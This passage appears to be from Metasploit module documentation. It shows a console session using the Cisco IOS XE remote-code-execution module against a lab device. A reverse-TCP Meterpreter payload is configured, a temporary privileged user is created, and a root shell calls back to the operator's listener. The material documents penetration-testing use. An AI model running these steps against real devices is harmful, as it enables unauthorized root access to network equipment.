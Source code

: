 ### Unix Target (IOS XE 16.12.3)

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.114
RHOSTS => 192.168.86.114
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 1
target => 1
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > show options 

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.114   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/cisco_ios_xe_rce) > check 
[+] 192.168.86.114:443 - The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'vhQbLuix' with password 'JAjuUVov'
[*] Removing user 'vhQbLuix'
[*] Sending stage (24772 bytes) to 192.168.86.114
[*] Meterpreter session 11 opened (192.168.86.122:4444 -> 192.168.86.114:61966) at 2025-03-03 20:37:36 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : test2_c1000v
OS           : Linux 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019
```